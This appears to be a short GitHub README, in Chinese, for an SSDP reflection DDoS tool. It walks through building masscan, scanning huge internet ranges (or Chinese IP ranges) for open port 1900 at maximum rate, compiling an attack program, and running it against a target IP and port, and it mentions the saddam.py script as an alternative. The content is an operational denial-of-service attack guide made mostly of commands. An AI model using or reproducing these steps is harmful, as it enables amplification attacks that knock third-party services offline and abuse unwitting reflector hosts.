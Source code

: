# Ddos Ssdp Attack
> Use Masscan Scan Server

### 安装 Git
	yum install git

### 安装 Masscan
	git clone https://github.com/robertdavidgraham/masscan
	cd masscan
	make
	cd bin

### 扫描 Server
	# 安装会话
	yum install screen
	# 最高速扫描全网 SSDP 端口保存为 JSON
	screen ./masscan 0.0.0.0/4 -p1900 --rate 100000000 -oJ ip.json
	# 转换格式为单 IP 的 TXT
	python format.py ip.json ip.txt

> **扫描中国IP段方式**
> screen ./masscan -iL ip/cn_ip.txt -p1900 --rate 100000000 -oJ ip.json

### 攻击 SSDP
	# 安装 C 编译环境
	yum -y install gcc
	# 编译攻击脚本
	gcc -pthread ssdp.c -o ssdp
	# SSDP 攻击
	./ssdp <target IP> <target port> <reflection file> <time (optional)>

> 攻击或使用功能更全的 saddam.py 攻击脚本

